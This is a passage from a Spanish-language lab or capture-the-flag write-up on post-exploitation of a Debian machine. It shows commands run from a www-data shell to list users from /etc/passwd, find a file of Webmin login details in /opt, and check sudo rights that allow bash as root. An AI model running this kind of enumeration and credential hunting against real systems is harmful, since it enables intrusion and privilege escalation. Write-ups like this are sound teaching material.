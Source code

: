 
<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima y Escalando Privilegios con Privilegios Sobre Binario Bash</h2>

Veamos qué usuarios existen:
```bash
www-data@debian:/var/www/html$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
bob:x:1001:1001:,,,:/home/bob:/bin/bash
```
Solo existe el **usuario bob**.

Pero no podremos ver el contenido de su directorio:
```bash
www-data@debian:/var/www/html$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Dec  9  2024 .
drwxr-xr-x 18 root root 4096 Dec  8  2024 ..
drwx------  2 bob  bob  4096 Dec  9  2024 bob
```

Buscando un poco, encontramos un archivo de texto interesante en el directorio `/opt`:
```bash
www-data@debian:/var/www/html$ ls -la /opt
total 12
drwxr-xr-x  2 root root 4096 Dec  9  2024  .
drwxr-xr-x 18 root root 4096 Dec  8  2024  ..
-rw-r--r--  1 root root   59 Dec  9  2024 'CMS Webmin.txt'
```

Si lo leemos, habremos encontrado las credenciales de acceso al **Webmin**:
```bash
www-data@debian:/var/www/html$ cat /opt/'CMS Webmin.txt'
url: https://IP:10000
login: santaclaus / ********
```

Antes de ir a probarlas, veamos si podemos ver los privilegios de este usuario:
```bash
www-data@debian:/var/www/html$ sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on debian:
    (ALL) NOPASSWD: /bin/bash
```
Genial, podemos usar la **Bash** como **Root**.
